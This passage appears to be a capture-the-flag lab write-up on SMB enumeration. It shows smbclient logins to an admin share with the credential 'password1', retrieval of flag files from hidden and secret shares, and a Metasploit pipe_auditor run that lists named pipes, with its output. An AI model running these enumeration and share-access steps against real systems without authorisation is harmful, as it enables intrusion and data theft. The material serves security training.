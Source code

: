 > 📌 _jane_'s share is not browsable but it exists.

```bash
smbclient //192.174.58.6/admin -U admin
# Use "password1" password
```

```bash
smb: \> ls
smb: \> cd hidden
smb: \hidden\> ls
smb: \hidden\> get flag.tar.gz 
smb: \hidden\> exit

root@attackdefense:~# tar -xf flag.tar.gz 
root@attackdefense:~# cat flag
```

```bash
smb: \> cd secret
smb: \secret\> ls
  .     D   0  Tue Nov 27 13:36:13 2018
  ..    D   0  Tue Feb 14 21:58:47 2023
  flag  N  33  Tue Nov 27 13:36:13 2018
  1981084628 blocks of size 1024. 39614508 blocks available
  
smb: \secret\> get flag
getting file \secret\flag of size 33 as flag (32.2 KiloBytes/sec) (average 32.2 KiloBytes/sec)
smb: \secret\> exit

root@attackdefense:~# cat flag 
```

<details><summary>Reveal Flag: 🚩</summary></details>

* A [named pipe](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-wpo/4de75e21-36fd-440a-859b-75accc74487c) is a logical connection between a client and server involved in a SMB connection, similar to an open TCP port.
* Use [`pipe_auditor`](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/pipe\_auditor) metasploit module to enumerate the named pipes

```bash
msfconsole
```

```bash
use auxiliary/scanner/smb/pipe_auditor 
set SMBUser admin
set SMBPass password1
set RHOSTS 192.174.58.6
exploit
```

```bash
[+] 192.174.58.6:139 - Pipes: \netlogon, \lsarpc, \samr, \eventlog, \InitShutdown, \ntsvcs, \srvsvc, \wkssvc
[*] 192.174.58.6: - Scanned 1 of 1 hosts (100% complete)
```
